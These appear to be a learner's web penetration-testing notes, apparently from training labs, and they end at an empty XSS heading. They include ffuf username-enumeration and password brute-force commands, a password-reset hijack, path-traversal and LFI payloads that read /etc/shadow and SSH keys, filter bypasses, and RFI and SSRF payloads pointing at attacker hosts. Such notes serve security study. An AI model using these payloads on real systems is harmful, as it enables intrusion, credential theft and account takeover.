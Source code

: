 # Web pentest
## Content discovery
- review source code
- review files
- review actions in network
- robots.txt
- sitemap.xml
- framework detection
    - favicon inspection (`curl <url/favicon.ico | md5sum>` and compare it to [owasp_db](https://wiki.owasp.org/index.php/OWASP_favicon_database))
    - wappalyzer extension
    - source code/headers (`curl -v`)
- dorks
    - site:
    - inurl:
    - filetype:
    - intitle:
- wayback machine [link](https://archive.org/web/) (old versions of webpages)
- search for site/company name on github
- s3-buckets
S3 buckets could be detected with tools, by reviewing source code or by looking via `{name}.s3.amazonaws.com`, where name could be company name combined with smth like -assets, -www, -public, -private etc.
- tools:
[wordlists](https://github.com/danielmiessler/SecLists), `ffuf`, `dirb`, `gobuster`, `dirsearch` (favorite)  

## Subdomain enum
### OSINT
[crt.sh](http://crt.sh/)  
[ctsearch](https://ui.ctsearch.entrust.com/ui/ctsearchui)  
Dork: `-site:www.domain.com site:*.domain.com`  
This dork will reveal all subdomains except www. Could be combined with another exclusions  

### bruteforce
[dnsrecon](https://github.com/darkoperator/dnsrecon)  
`dnsrecon -t brt -d <host>`

### virtual hosts
some hosts could appear only on local machine (in /etc/hosts for example). In such case server understands what exact host we are looking by looking at `Host` header  
So we can tamper it to access internal hosts
```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.domain.com" -u "<url>"
```
Also we need to filter output with `-fs <size of page>`  

## Authentication bypass
### Username enum
We can use ffuf to enum existing usernames  
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.128.69/customers/signup -mr "username already exists"`  
`mr` is 'match http response data'

### Brute Force
We can use valid usernames detected and used password wordlist for effective bruteforce
```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```
`W1` and `W2` are used to specify fuzzing point in place of `FUZZ` keyword  
Multiople wordlists are set with `-w` parameter and separated with coma  
`-fc` is used to detect HTTP responses other than 200  

### Logic Flaw
```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Because the above PHP code example uses three equals signs (`===`), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting `/adMin` will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.  

#### Reset password logic flaw
For example if we need to set e-mail for password reset, we can try to set additional e-mail for sending request on another e-mail:
```
curl 'http://10.10.174.105/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
Here we set normal e-mail in url, but also add additional url in requests's payload data  

### Cookie Tampering
Examine and try to decode/crack hash of cookies in order to change them  

## IDORs
Check for idors  
If ids are unpredictable, we can sue two accounts and try to swap objects between them.  
Also some parameters could be hidden or unused. We can try to detect them with parameter mining  

## File Inclusion
### Path traversal
```
http://webapp.thm/get.php?file=../../../../etc/passwd
http://webapp.thm/get.php?file=../../../../boot.ini
http://webapp.thm/get.php?file=../../../../windows/win.ini
```
Files that could be searched in place of `/etc/passwd`:
```
/etc/issue
/etc/profile
/proc/version
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/root/.ssh/id_rsa
/var/log/apache2/access.log
C:\boot.ini
```
PHP has function that often leads to path traversal. It's `file_get_contents`.  

### LFI
For example if we have opportunity to choos lang of page, it could call .php file with contents of such lang and this could be a vector for LFI:
```
<?PHP 
	include($_GET["lang"]);
?>
```
Request could be like this:
```
http://webapp.thm/index.php?lang=EN.php
```
And EN.php is changed to a file of our interest.  
If dev decided to ahrdcode some directory, we can bypass it with dir traversal:
```
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```
If we have restriction with file extension (for example it's added in the code), we can use null byte to bypass it `%00`  
This trick is fxied in PHP 5.3.4 and above  
If files are filtered, we can try to add `/.` at the end of requested file to trick file filtering pattern:
```
http://webapp.thm/index.php?lang=/etc/passwd/.
```
If `../` is cutted out, we can use `....//`  
If we are forced to specify directory, we can use directory specification + directory traversal:
```
?lang=languages/../../../../../etc/passwd
```

### RFI
In case of PHP this vuln is based on allowing an attacker to place external URL into `include` function.  
One requirement for RFI is that the `allow_url_fopen` option needs to be `on`  
```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```
Dangerous PHP funcs are `allow_url_fopen` and `allow_url_include`  
Entry points could be via GET POST COOKIE or Host header

## SSRF
SSRF request could be splitted by adding `&` to parameters. For example:
```
https://website.thm/item/2?server=attacker.website.thm/flag?id=9&x=
```
We close the request with `&x` to trim potential pre-defined parameters.  
We can try to perform SSRF with elements such as avatars. For example if we see avatar which source is `assets/avatar.png`, we can try to change it via inspect function and then view page source. For example we can change it to some unaccessible url such as `/private`. If it doesn't work, we can try to combine it with path traversal and use smth like `x../private`  

## XSS
